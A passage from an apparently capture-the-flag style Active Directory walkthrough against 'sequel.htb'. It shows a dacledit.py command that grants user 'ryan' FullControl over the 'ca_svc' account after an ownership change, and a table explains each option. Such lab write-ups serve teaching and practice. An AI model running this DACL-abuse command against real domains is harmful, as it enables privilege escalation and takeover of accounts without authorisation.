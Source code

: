 ![Desktop View](/assets/img/ad-series-2/ss24.png){: width="982" height="800" }
_Owneredit.py_

Now the owner has been successfully modified, I can now change permissions. For the next step, I used `dacledit.py`. 

This command modifies the Discretionary Access Control List (DACL) of `ca_svc` in Active Directory on the sequel.htb. This grants `FullControl` to `ryan`.

```bash
python3 dacledit.py -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' sequel.htb/ryan:<password>
```

| Command Option            | Explanation                                                   |
| :-------------------------| :-------------------------------------------------------------|
| -action 'write'           | Modification of DACL.                                         |
| -rights 'FullControl'     | Grants **Full Control** permissions. Highest level of access. |
| -principal 'ryan'         | The user whol will receive **Full Control**.                  |
| -target 'ca_svc'          | The AD object whose permissions will be modified.             |
| -sequel.htb/ryan:password | Credentials used to authenticate.                             |
